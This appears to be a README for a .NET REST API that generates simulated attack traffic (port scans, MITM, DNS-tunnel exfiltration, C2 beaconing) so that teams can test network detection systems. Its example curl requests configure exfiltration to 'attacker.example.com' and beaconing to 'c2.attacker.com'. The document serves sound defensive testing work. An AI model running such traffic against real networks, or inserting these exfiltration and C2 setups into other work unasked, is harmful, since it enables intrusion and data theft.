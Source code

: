 # Traffic Generator API

A REST API for generating various types of network traffic for penetration testing scenarios and security system validation.

## Overview

This tool generates realistic attack traffic patterns that can be used to test network security monitoring systems like the Sentinel Network Intelligence Platform. It simulates various attack vectors including reconnaissance, man-in-the-middle attacks, data exfiltration, and command & control communications.

## Features

### Supported Attack Types

1. **Reconnaissance Traffic**
   - Port scanning (TCP/UDP)
   - Service enumeration and banner grabbing
   - OS fingerprinting
   - DNS enumeration and subdomain discovery
   - SNMP community string brute forcing

2. **Man-in-the-Middle (MITM) Attacks** 
   - ARP spoofing simulation
   - DNS spoofing and poisoning
   - SSL stripping attacks
   - DHCP starvation

3. **Data Exfiltration**
   - DNS tunneling
   - ICMP covert channels
   - HTTP/HTTPS data uploads
   - Steganographic techniques

4. **Command & Control (C2)**
   - HTTP/HTTPS beaconing
   - DNS-based C2 channels
   - ICMP C2 communications
   - Domain Generation Algorithm (DGA) simulation

## API Endpoints

### Traffic Generation

- `POST /api/traffic/reconnaissance` - Generate reconnaissance traffic
- `POST /api/traffic/mitm` - Generate MITM attack traffic  
- `POST /api/traffic/exfiltration` - Generate data exfiltration traffic
- `POST /api/traffic/c2` - Generate C2 communication traffic

### Session Management

- `GET /api/traffic/sessions` - List active traffic generation sessions
- `GET /api/traffic/sessions/{sessionId}` - Get specific session status
- `POST /api/traffic/sessions/{sessionId}/stop` - Stop traffic generation session

### System Information

- `GET /api/traffic/interfaces` - List available network interfaces
- `GET /api/traffic/capabilities` - Get supported attack types and methods
- `GET /health` - API health check

## Quick Start

### Prerequisites

- .NET 8.0 SDK
- Administrative privileges (required for raw packet generation)
- Windows with WinPcap/Npcap installed

### Build and Run

```bash
# Navigate to project directory
cd TrafficGenerator

# Restore packages and build
dotnet build --no-restore

# Run the API
dotnet run --no-restore
```

The API will be available at `https://localhost:7000` with Swagger UI at the root URL.

## Example Usage

### Generate Port Scan Traffic

```bash
curl -X POST "https://localhost:7000/api/traffic/reconnaissance" \
     -H "Content-Type: application/json" \
     -d '{
       "targetNetwork": "192.168.1.0/24",
       "scanType": "port_scan",
       "ports": ["22", "80", "443", "445"],
       "durationSeconds": 300,
       "aggressiveScan": false,
       "delayBetweenScans": 100
     }'
```

### Generate DNS Exfiltration Traffic

```bash
curl -X POST "https://localhost:7000/api/traffic/exfiltration" \
     -H "Content-Type: application/json" \
     -d '{
       "method": "dns_tunnel",
       "exfilDomain": "attacker.example.com",
       "dataSizeKB": 1024,
       "encodingMethod": "base64",
       "durationSeconds": 600,
       "chunkSizeBytes": 255
     }'
```

### Generate C2 Beaconing Traffic

```bash
curl -X POST "https://localhost:7000/api/traffic/c2" \
     -H "Content-Type: application/json" \
     -d '{
       "c2Protocol": "https",
       "c2Server": "c2.attacker.com",
       "beaconInterval": 30,
       "jitterPercent": 20,
       "durationSeconds": 1800,
       "useDGA": true,
       "userAgents": [
         "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
       ]
     }'
```

## Response Format

All traffic generation endpoints return a response with:

```json
{
  "sessionId": "guid",
  "status": "started|running|completed|failed|cancelled",
  "startTime": "2024-01-01T00:00:00Z",
  "trafficType": "reconnaissance|mitm|exfiltration|c2",
  "packetsGenerated": 1234,
  "bytesGenerated": 567890,
  "warnings": ["Optional warning messages"],
  "details": {
    "Additional session-specific information"
  }
}
```

## Security Considerations

⚠️ **WARNING**: This tool generates actual network traffic that may trigger security systems or be considered malicious activity. Only use in controlled environments with proper authorization.

- Run only in isolated test networks
- Ensure you have permission to generate traffic against target systems
- Monitor resource usage during high-volume traffic generation
- Be aware that some attacks may require administrative privileges

## Integration with Sentinel Platform

This tool is designed to work with the Sentinel Network Intelligence Platform for testing:

1. Start the Sentinel platform to monitor network traffic
2. Use this Traffic Generator to create test scenarios
3. Analyze how well Sentinel detects and classifies the generated traffic
4. Tune detection rules based on results

## Dependencies

- **SharpPcap** - Low-level packet capture and injection
- **PacketDotNet** - Packet parsing and construction
- **DnsClient** - Advanced DNS operations
- **Flurl.Http** - HTTP traffic generation
- **NBomber** - Load testing capabilities
- **BouncyCastle** - Cryptographic operations

## Contributing

This is a specialized tool for network security testing. Contributions should focus on:
- Additional attack pattern implementations
- Improved traffic realism
- Better performance optimization
- Enhanced logging and monitoring

## License

This tool is intended for legitimate security testing purposes only. Users are responsible for compliance with applicable laws and regulations.
